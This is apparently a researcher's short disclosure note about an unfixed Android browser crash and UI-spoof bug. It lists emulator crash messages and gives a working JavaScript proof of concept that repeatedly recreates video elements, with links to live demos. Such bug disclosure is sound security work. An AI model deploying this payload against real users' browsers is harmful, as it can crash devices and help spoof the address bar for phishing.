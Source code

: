 ```yaml
---
title: Android Crash and UI spoof (Not fixed)
---
```


Android 12 (x86_64): Internal Emulator crash EXCEPTION_ACCESS_VIOLATION_WRITE  
Android 11 (x86): Emulator closes  
Android 9 (x86): Launcher crash `frameworks/av/media/libstagefright/omx/SimpleSoftOMXComponent.cpp:476 CHECK(state == OMX_StateLoaded || state == OMX_StateExecuting)` failed  

I have also had issues where the address bar or a different website in the case of a webview get shown instead of the video element.
```js
<script> onload = () => { createVideo();createVideo();createVideo();createVideo();createVideo(); } function createVideo() { let v = null; setInterval(() => { if (v) document.body.removeChild(v); v = document.createElement('video'); v.width="1000"; v.src = 'https://ndevtk.github.io/writeups/extensionRCE.mp4'; document.body.appendChild(v); }, 2000); } </script>
```
Demos: [Doge PoC](https://ndev.tk/doge/) and [Unreliable Chrome UI spoof](https://ndev.tk/video.html)
